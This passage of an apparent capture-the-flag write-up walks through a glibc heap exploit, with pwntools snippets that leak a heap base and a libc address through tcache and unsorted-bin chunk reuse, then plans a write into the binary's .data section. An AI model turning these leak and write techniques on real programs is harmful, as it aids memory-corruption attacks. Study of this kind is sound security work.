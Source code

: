 ```python
free(1)
create(0,24)
view(0)
r.recvuntil(b'Data: ')
heap_base = defuscate(unpack(r.recv(6),'all')) + 0x562c4dace000 -0x562c4dace2a0
log.critical(f'heap_base = {hex(heap_base)}')
```

Obtaining the **Libc leak** is straightforward: free a chunk  into the unsorted bin, allocate a chunk of the from the unsorted freed memory , and then print it’s content — you get, `Libc leak` in return !

<aside>
💡

Why ? Well, when a chunk gets placed in the unsorted bin, glibc stashes forward and backward pointers (`fd` and `bk`) inside it, pointing into libc’s main arena. And again, malloc doesn’t zero anything out when reusing the chunk.

</aside>

```python
for i in range(8):
    create(i,0xf8)
for i in range(7,-1,-1):
    free(i)  
#chuck at 0 index is in Unsorted bin and other chunks are inside tcache bin
create(0,32) 
view(0)
r.recvuntil(b'Data: ')
libc.address = unpack(r.recv(6),'all') + 0x726908600000 - 0x726908803c10
log.critical(f'libc.address = {hex(libc.address)}')
```

---

## Can We Pwn It Now?

<p float="left">
  <img src="/d1ff/images_limit/a3233e72-527b-4382-be14-7a3c8f08fdf1.png" width="300"/>
  <img src="/d1ff/images_limit/66b399b8-651b-4ed0-a8a0-a2a3505de317.png" width="300"/>
</p>


 

Not quite — at least, **not yet**. The reason lies in the **`limit`** condition: we’re restricted from writing to any memory **above** the `limit` pointer. However, anything **below** it is fair game.

To understand our options, let’s take a look at the **virtual memory layout**:

![image.png](/d1ff/images_limit/image.png)

As shown above, the entire ELF binary — including its `.data` section — resides at a **lower address** than the heap. That means the `.data` section is within our writable range, and that’s a big opportunity.
